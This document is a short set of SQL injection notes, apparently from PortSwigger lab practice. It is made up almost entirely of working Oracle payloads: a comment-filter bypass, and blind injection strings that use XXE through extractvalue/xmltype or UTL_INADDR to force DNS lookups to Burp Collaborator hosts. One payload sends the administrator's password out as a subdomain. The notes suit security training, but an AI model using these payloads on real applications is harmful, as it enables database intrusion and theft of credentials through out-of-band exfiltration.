 

##  GET - Error based - strip comments_

-   if they are filtering comments what should we do now.
-   1' OR 'a'='a  
-   1' 'a


##   Blind SQL injection with out-of-band interaction


```oracle
TrackingId=x' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://cgwihkkm49dt3sgk9lufyyb6mxsngc.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
```

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

```
' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.akyjt827n6zbq7z8zvtfg6bft6zwnl.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)-- 
```


DNS lookup with data exfiltration

#   DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred. 

##  Oracle

(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

The following technique works on fully patched Oracle installations, but requires elevated privileges:

```
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

[PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)